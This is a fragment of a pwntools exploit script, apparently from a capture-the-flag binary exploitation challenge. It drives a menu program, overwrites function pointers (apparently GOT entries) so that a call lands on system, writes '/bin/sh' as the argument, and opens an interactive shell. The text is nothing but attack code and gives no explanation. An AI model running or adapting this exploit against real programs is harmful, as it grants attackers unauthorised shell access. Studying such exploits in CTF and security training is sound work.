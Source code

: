 ```
p.sendline(b"4") # Edit Description
p.recv()

p.sendline(p64(system_addr) + p64(puts_addr) + p64(strlen_addr) + p64(printf_addr) + p64(getchar_addr) + p64(malloc_addr)) #.. .to_bytes(6, 'little')
p.recv()

trigger_fault_2(p, mall) # Set description = original malloc
p.recv()

p.sendline(b"4") # Edit description
p.recv()

p.sendline(b"/bin/sh\x00") # to /bin/sh
p.recv()


p.sendline(b"6") # Trigger

p.interactive()
p.close()



```
